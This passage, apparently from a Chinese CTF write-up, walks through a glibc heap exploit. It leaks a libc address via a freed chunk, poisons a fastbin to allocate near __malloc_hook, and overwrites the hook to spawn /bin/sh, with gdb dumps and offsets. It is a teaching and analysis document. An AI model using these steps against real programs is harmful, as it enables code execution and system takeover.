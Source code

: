 ```
0x56144ab7e060:	0x6161616161616161	0x6161616161616161
0x56144ab7e070:	0x0000000000000000	0x0000000000000071
0x56144ab7e080:	0x6262626262626262	0x6262626262626262
0x56144ab7e090:	0x6262626262626262	0x6262626262626262
0x56144ab7e0a0:	0x6262626262626262	0x6262626262626262
0x56144ab7e0b0:	0x6262626262626262	0x6262626262626262
0x56144ab7e0c0:	0x0000000000000000	0x0000000000000111
0x56144ab7e0d0:	0x00007f26abbacb78	0x00007f26abbacb78 --> 指向libc中的某地址
0x56144ab7e0e0:	0x0000000000000000	0x0000000000000071
```
`Leak Address`总体流程：
> 申请两个`fast chunk`, 一个`small chunk`, 伪造`chunk header`, 最终目的就是为了是`libc`的地址出现在某个可打印的`chunk`块中。
#### Two Part(execve("/bin/sh"))
**如何获取`Shell`?**
> malloc_hook 是一个`libc`上的函数指针，调用`malloc`时如果该指针不为空则执行它指向的函数，可以通过写`malloc_hook`来`getshell`

_思路_: Alloc(x), 返回的地址是`malloc_hook`, 那么我们就可向这个地址写入`execve("/bin/sh")`的地址
现在`fastbin`：
```
[ fb 4 ] 0x7f1017adfb48  -> [ 0x0 ]
[ fb 5 ] 0x7f1017adfb50  -> [ 0x55b076f6b070 ] (112) --> free chunk2
[ fb 6 ] 0x7f1017adfb58  -> [ 0x0 ]
```
执行`free(1)`, `Fill(0, 0x60 + 0x10 + 0x10, payload)`
```
[ fb 0 ] 0x7f1017adfb28  -> [ 0x0 ]
[ fb 1 ] 0x7f1017adfb30  -> [ 0x0 ]
[ fb 2 ] 0x7f1017adfb38  -> [ 0x0 ]
[ fb 3 ] 0x7f1017adfb40  -> [ 0x0 ]
[ fb 4 ] 0x7f1017adfb48  -> [ 0x0 ]
[ fb 5 ] 0x7f1017adfb50  -> [ 0x55b076f6b070 ] (112)
                            [ 0x7f1017adfaed ] (112) --> 被修改为了malloc_hook附近的地址
[ fb 6 ] 0x7f1017adfb58  -> [ 0x0 ]
[ fb 7 ] 0x7f1017adfb60  -> [ 0x0 ]
[ fb 8 ] 0x7f1017adfb68  -> [ 0x0 ]
[ fb 9 ] 0x7f1017adfb70  -> [ 0x0 ]
```
`Alloc(0x60) * 2`, 第二次返回的就是`malloc_hook`附近的地址.
```
Fill(2, length, execve_address),
Alloc(0x20) --> 执行execve("/bin/sh")
```
### 其他问题:
**1. 这个地址和`libc`加载的基地址有什么关系?**
> 答: 泄露出来的这个地址与libc之间相差`0x3c4b78`， 可以使用`peda`的`vmmap`来验证.
```
0x55b076f6b0c0:	0x0000000000000000	0x0000000000000111
0x55b076f6b0d0:	0x00007f1017adfb78	0x00007f1017adfb78
0x55b076f6b0e0:	0x0000000000000000	0x0000000000000071
0x55b076f6b0f0:	0x0000000000000000	0x0000000000000000
--------------------------------------
0x000055b076f6b000 0x000055b076f8c000 rw-p	[heap]
0x00007f101771b000 0x00007f10178db000 r-xp	/lib/x86_64-linux-gnu/libc-2.23.so
0x00007f10178db000 0x00007f1017adb000 ---p	/lib/x86_64-linux-gnu/libc-2.23.so
```
**2. `0x71`是什么鬼？ 为甚么要填充它?**
> `0x71` 被称为`chunksize` ,下面这段代码是`malloc.c`中的一段代码，如果`fastbin_index (chunksize (victim)) != idx`， 就会`corruption`, `free`的时候也会检查`chunksize`, 根据`chunksize`的大小，`free`相应的空间.
